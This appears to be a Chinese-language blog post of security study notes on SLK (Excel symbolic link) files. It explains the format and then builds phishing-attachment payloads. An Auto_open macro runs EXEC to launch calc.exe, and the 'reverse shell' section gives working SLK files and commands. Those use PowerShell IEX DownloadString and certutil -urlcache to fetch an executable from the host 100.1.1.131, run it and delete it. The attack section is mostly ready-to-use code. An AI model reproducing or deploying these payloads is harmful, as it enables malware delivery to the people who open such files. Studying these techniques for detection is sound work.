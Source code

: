 ```yaml
---
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - SLK
excerpt: SLK 文件大多属于 Microsoft 的 Excel。 SLK 文件是符号链接文件，它是由 Microsoft 开发并主要由 Excel 使用的格式。该文件格式仅使用可显示的 ANSI 字符来存储数据，并允许其他应用程序轻松处理其内容。
---
```


# SLK

## 概述

> [如何在没有 Excel 的情况下打开 SLK 文件 (filext.com)](https://filext.com/zh/wenjian-kuozhan-ming/SLK)
>
> ---
>
> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

SLK 文件大多属于 Microsoft 的 Excel。 SLK 文件是符号链接文件，它是由 Microsoft 开发并主要由 Excel 使用的格式。该文件格式仅使用可显示的 ANSI 字符来存储数据，并允许其他应用程序轻松处理其内容。

在2007年XLSX引入之前且XLS文件是私有文件格式的时候，SLK是XLS的开放格式替代品，对于最终用户来说，SLK文件看起来像一个Excel文档。

- 主要用途: SLK文件格式主要用于程序之间（如微软 Excel 和 Lotus 1-2-3）传输数据。由于这些文件仅使用可显示的 ANSI 字符，因此程序和用户都很容易解释它们，并且可以使用简单的文本编辑器（例如记事本）查看或修改。
- 预览与编辑软件: 虽然该格式主要由 Microsoft Excel 使用，但其他程序（例如 OpenOffice、LibreOffice 和 Gnumeric）也支持该文件格式的变体。
- 文件结构：SLK 文件中的数据以纯文本形式存储，并以分号分隔的值进行组织。要在单元格中包含文字分号，可以使用前面的分号对其进行转义，这将导致字符被视为单元格的一部分，而不是文件结构的一部分。

例如:

```mathematica
ID;P
C;X1;Y1;K"Header1"
C;X2;Y1;K"Header2"
C;X1;Y2;K"Data1"
C;X2;Y2;K"Data2"
E
```

- `ID;P` 是文件的标识符和参数
- `C;X1;Y1;K"Header1"` 表示第1列第1行的单元格内容是"Header1"
  - `C` - `Cell` 表示这是一行单元格数据
  - `X1` 表示单元格所在的列, 第 1 列
  - `Y1` 表示单元格所在的行, 第 1 行
  - `K"Header1"`：表示单元格的内容，`K` 是 "Konstant"（常量）的缩写，`"Header1"` 是该单元格的实际内容，即文字 "Header1"
- `C;X2;Y1;K"Header2"` 表示第2列第1行的单元格内容是"Header2"
- `C;X1;Y2;K"Data1"` 表示第1列第2行的单元格内容是"Data1"
- `C;X2;Y2;K"Data2"` 表示第2列第2行的单元格内容是"Data2"
- `E` 表示文件结束

---

## 调起计算器

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("calc.exe")
C;X1;Y102;K0;EHALT()
E
```

- `NN;NAuto_open;ER101C1;KOut Flank;F`
  - **NN**：名称定义行，定义一个名称及其范围
  - **N**：后面的 `Auto_open` 表示名称。此处定义了一个名称 `Auto_open`
  - **ER101C1**：范围定义，表示范围从 `R101C1` 开始，即第101行第1列。前面的 `E` 可能表示扩展的范围定义
  - **KOut Flank**：为名称 `Auto_open` 赋值，值为 `Out Flank`
  - **F**：标志，可能用于特定标识或格式设置
- `C;X1;Y101;K0;EEXEC("calc.exe")`
  - **K0**：表示单元格的内容，这里是数值 `0`
  - **EEXEC("calc.exe")**：执行命令 `EXEC("calc.exe")`，表示在读取和执行此SLK文件时将运行 `calc.exe`，即打开计算器程序
-  `C;X1;Y102;K0;EHALT()`
  - **K0**：表示单元格的内容，这里是数值 `0`。
  - **EHALT()**：执行命令 `HALT()`，表示停止或结束操作。这通常用于结束脚本或宏的执行。

![image-20240708153941228](http://cdn.ayusummer233.top/DailyNotes/202407081539970.png)

---

## 反弹Shell

> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

`http://100.1.1.131:8000/powershell_curl_reverse_shell.txt`: 

```powershell
curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe;./msedge.exe
```

`slk_reverse_shell.slk`:

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("powershell.exe -nop -c IEX((new-object Net.WebClient).DownloadString('http://100.1.1.131:8000/download/powershell_curl_reverse_shell.txt'))")
C;X1;Y102;K0;EHALT()
E
```

> PS: 无法成功执行此命令, 原因未知
>
> PS: 命令替换成 `powershell.exe -nop -c IEX('calc.exe')` 是可以正常弹出计算器的

---

`shell.cmd`

```cmd
certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete
```

`slk_reverse_shell_shell_cmd_file_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:/temp/shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

---

`slk_reverse_shell_certutil_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("cmd.exe /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete")
C;X1;Y102;K0;EHALT()
E
```

![image-20240708190618861](http://cdn.ayusummer233.top/DailyNotes/202407081906201.png)

![image-20240708190649128](http://cdn.ayusummer233.top/DailyNotes/202407081906298.png)

---

## 参考材料

> [SLK 文档钓鱼 - Google Search](https://www.google.com/search?q=SLK+文档钓鱼&sca_esv=93393d72ee4371e2&biw=1912&bih=972&sxsrf=ADLYWIKrEcaS-mRNnan1YdFHckVXFvvNkA%3A1720173801763&ei=6cSHZqSlLqmnuvQPua2uoA4&ved=0ahUKEwjkvZ_j0o-HAxWpk44IHbmWC-Q4FBDh1QMIDw&uact=5&oq=SLK+文档钓鱼&gs_lp=Egxnd3Mtd2l6LXNlcnAiEFNMSyDmlofmoaPpkpPpsbwyCBAhGKABGMMESONEUNg7WMxBcAJ4AJABAJgBwAKgAagQqgEFMi01LjK4AQPIAQD4AQGYAgOgArsCwgIKEAAYgAQYsAMYDZgDAIgGAZAGAZIHBTIuMC4xoAfJDQ&sclient=gws-wiz-serp)

- [Macos Office攻防 | YoungRichOG](https://youngrichog.github.io/2021/06/16/Macos-Office攻防/)
- [关于文档钓鱼的学习 | 藏青's BLOG (cangqingzhe.github.io)](https://cangqingzhe.github.io/2020/09/02/关于文档钓鱼的学习/)
- [【技术分享】如何绕过受保护视图发起钓鱼攻击-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/87013)
- [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

---

